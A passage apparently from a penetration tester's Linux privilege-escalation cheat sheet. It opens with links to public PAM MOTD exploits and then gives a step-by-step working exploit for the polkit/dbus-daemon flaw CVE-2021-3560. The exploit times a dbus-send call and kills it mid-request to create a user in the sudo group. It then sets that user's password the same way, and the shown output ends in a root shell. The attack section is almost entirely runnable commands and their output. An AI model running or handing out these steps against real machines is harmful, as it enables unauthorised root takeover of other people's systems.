 * [https://www.securityfocus.com/bid/50192/discuss](https://www.securityfocus.com/bid/50192/discuss)

PAM MOTD:

* [https://www.exploit-db.com/exploits/14273](https://www.exploit-db.com/exploits/14273)
* [https://www.exploit-db.com/exploits/14339](https://www.exploit-db.com/exploits/14339)



### polkit/dbus-daemon

**CVE-2021-3560**

* [https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/](https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/)

Calculate the approximate time for `dbus-send` to fail:

```
$ time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:snovvcrash string:snovvcrash int32:1
Error org.freedesktop.Accounts.Error.PermissionDenied: Authentication is required

real    0m0.014s
user    0m0.003s
sys     0m0.001s
```

Divide it by 2 or by 3 and create a new user account (you might want to experiment with the number of milliseconds in the delay and repeat the process a couple of times if needed):

```
$ dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:snovvcrash string:snovvcrash int32:1 & sleep 0.005s; kill $!
[1] 16405
$
[1]+  Terminated              dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:snovvcrash string:snovvcrash int32:1
$ id snovvcrash
uid=1003(snovvcrash) gid=1003(snovvcrash) groups=1003(snovvcrash),27(sudo)
```

Then set a password for it, sudo into a privilege shell and you are root:

```
$ openssl passwd -5 'N3V3RF34RI15H3R3!'
$5$a/AGYekwlZrxQMTH$lrcXNqyEZhg6V6Rk2kqxwKtAQ5mb3cip6T1XjOgcoP0
$ dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1003 org.freedesk
top.Accounts.User.SetPassword string:'$5$a/AGYekwlZrxQMTH$lrcXNqyEZhg6V6Rk2kqxwKtAQ5mb3cip6T1XjOgcoP0' string:HelloWorld & sleep 0.005s; kill $!
[1] 16540
$
[1]+  Terminated              dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1003 org.freedesktop.Accounts.User.SetPassword string:'$5$a/AGYekwlZrxQMTH$lrcXNqyEZhg6V6Rk2kqxwKtAQ5mb3cip6T1XjOgcoP0' string:HelloWorld
$ su snovvcrash
$ sudo -i
[sudo] password for snovvcrash:
 # id
uid=0(root) gid=0(root) groups=0(root)
```
